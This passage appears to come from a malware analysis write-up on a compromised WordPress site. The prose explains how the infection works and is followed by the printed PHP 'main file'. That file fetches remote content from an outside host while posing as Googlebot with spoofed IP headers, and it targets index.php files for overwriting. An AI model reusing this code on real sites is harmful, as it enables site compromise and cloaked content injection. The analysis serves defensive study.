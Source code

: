This is the first if-block of the malware here and prior to this if-block it seems there are two functions being called here and two variables being declared with the boolean value true and a file created with the name write_work_complete.log. Notice the comment left in by the developer as well, it looks like there might be a GUI or some sort of "editor" that this code is possibly feeding data to.

Within that if-block we're checking to see if the write_work_complete file already exists and if it does we are executing another function file_get_contents, passing it the value of write_file as an argument and possibly sending it off to a server.

This pretty much all leads to this mainfile which was responsible for the creation of these smaller files seen earlier throughout the different directories:

```js

// Main file that generated the smaller files with random files names
echo "write page file exist!!!";
if ((array)$_SERVER["DOMAIN_PATH"]){
	$root=$_SERVER["DOMAIN_PATH"];
} else {
	$root=$_SERVER["DOCUMENT_ROOT"];
}
$index_file="D:\phpStudy\WWW\wordpress\index.php";
$static_index=False;
$domain=$_SERVER["SERVER_NAME"];
$mix_strs='abcdefghijklmnopqrstuvwxyz';
$root_file=$root.'/index.php';
function get_url_con($con_s){
    if(function_exists('curl_init')){
        $s = curl_init();
        curl_setopt($s,CURLOPT_URL,$con_s);
        curl_setopt($s,CURLOPT_RETURNTRANSFER,1);
        curl_setopt($s,CURLOPT_USERAGENT,'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)');
        curl_setopt($s,CURLOPT_REFERER,"http://www.google.com");
        curl_setopt($s, CURLOPT_HTTPHEADER, array('X-FORWARDED-FOR:66.249.72.240', 'CLIENT-IP:66.249.72.240'));
        return curl_exec($s);
    }else{
        return @file_get_contents($con_s);
    }
}
$options = array(
  'http'=>array(
    'metod'=>"GET",
    'timeout'=>60,
    'header'=>"Accept-language: en\r\n" .
              "Cookie: foo=bar\r\n" .  // check function.stream-context-create on php.net
              "User-Agent: Mozilla/5.0 (iPad; U; CPU OS 3_2 like Mac OS X; en-us) AppleWebKit/531.21.10 (KHTML, like Gecko) Version/4.0.4 Mobile/7B334b Safari/531.21.10" // i.e. An iPad 
  ),
  "ssl"=>array(
              "verify_peer"=>false,
              "verify_peer_name"=>false,
  )
);
$context = stream_context_create($options);
$wrote_content=get_url_con('http://mir.buymskey.com/wrote/wrote');
$wrote_content_split=explode('$searchsite="',$wrote_content);
$sub_num=strpos($wrote_content,'";
$confirm');
$wrote_end=substr($wrote_content,$sub_num);
$before_index_content='';
$index_names=array($index_file,$root_file);
```